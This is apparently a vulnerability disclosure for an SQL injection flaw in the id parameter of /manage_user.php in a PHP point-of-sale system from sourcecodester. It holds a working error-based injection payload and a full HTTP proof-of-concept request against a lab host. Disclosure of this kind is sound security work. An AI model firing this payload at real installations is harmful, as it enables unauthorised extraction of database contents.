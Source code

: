 # SQLi-5

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html](https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /manage_user.php

[+] Payload:

```http
id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)
```

POC：

```http
GET http://10.0.10.39/kruxton/manage_user.php?id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a) HTTP/1.1
Host: 10.0.10.39
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hide-dotfile=no; PHPSESSID=98umeubo6lpdpkv3bgsekd9udu
Connection: close


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image-20240313104308-52wr49k](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/ea05ecb7-f286-4c69-8f6d-50d207d58e2f)

